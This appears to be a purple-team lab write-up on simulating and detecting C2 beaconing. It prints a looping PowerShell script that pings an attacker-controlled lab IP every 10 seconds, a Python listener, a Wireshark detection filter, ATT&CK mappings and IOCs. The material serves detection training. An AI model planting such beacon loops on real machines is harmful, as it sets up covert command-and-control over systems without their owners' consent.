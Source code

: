 # 🛡️ Scenario 4 – Beaconing Behavior (C2 Heartbeats)

## 🎯 Objective
Simulate beaconing behavior from a victim endpoint to an attacker-controlled server, and validate the Blue Team’s detection and monitoring capabilities using network traffic analysis. 

---

## 🔴 Red Team Activity

### Steps
1. **Host Listener on Attacker Machine**:
   - The attacker hosted a Python HTTP server on port **8080** to receive beacon requests:
     ```bash
     python3 -m http.server 8080
     ```
2. **Deploy Beacon Script on Victim Machine**:
   - A looping PowerShell script was executed on the victim machine:
     ```powershell
     while ($true) {
         Invoke-WebRequest -Uri http://192.168.2.131:8080/beacon -Method GET
         Start-Sleep -Seconds 10
     }
     ```

### Explanation
- The script forces the victim to send **periodic GET requests** to the attacker every 10 seconds.
- These automated requests simulate typical **C2 beaconing traffic** used by malware to maintain persistence and check in with a command server.

### Evidence (Text-Only, No Images)
- **Victim CLI**: PowerShell errors indicating repeated GET requests to `/beacon`.
- **Attacker Terminal**: Python server logs showing inbound GET requests from the victim.

---

## 🔵 Blue Team Detection

### Network Traffic Analysis (Wireshark Capture)
- **Filter Applied**: 
  ```wireshark
  http.request.uri contains "beacon" and tcp.port == 8080
  ```
- **Observed Traffic**:
  ```
  GET /beacon HTTP/1.1
  Host: 192.168.2.131:8080
  ```
- **Analysis**: Confirmed that the victim generated **regular, timed requests** (every 10s) to the attacker-controlled server. The lack of payload variation indicated automated activity rather than user-driven browsing.

### Evidence (Text-Only, No Images)
- Wireshark log snippet showing multiple `/beacon` GET requests at consistent intervals.

---

## 🧩 MITRE ATT&CK Mapping

- **Technique**: T1071.001 – Application Layer Protocol: Web Protocols  
  **Description**: Adversaries use web traffic (HTTP/S) for C2 communications.  
- **Technique**: T1571 – Non-Standard Port  
  **Description**: Use of HTTP over port 8080 instead of standard ports (80/443) to evade detection.  

---

## 📌 Indicators of Compromise (IOCs)

| Type         | Value                     | Notes                                              |
|--------------|---------------------------|----------------------------------------------------|
| Attacker IP  | 192.168.2.131            | Kali machine hosting HTTP listener                 |
| Victim IP    | 192.168.2.129            | Windows endpoint sending beacon traffic            |
| Beacon Path  | /beacon                  | Periodic GET request URI                          |
| Interval     | 10 seconds               | Fixed heartbeat interval                          |

---

## ✅ Summary
In this scenario, the attacker simulated **C2 beaconing** by using a PowerShell loop to send periodic GET requests to a Kali-controlled server. The Blue Team successfully detected the activity through:
- Wireshark, which showed **regular beaconing traffic** to `/beacon` on TCP port 8080.
- Recognition of **non-standard port usage** and **predictable traffic intervals**.

This exercise demonstrates the importance of detecting beaconing behavior as an early indicator of compromise. Regular heartbeat-like traffic, especially on uncommon ports, is a key sign of malware C2 communication.
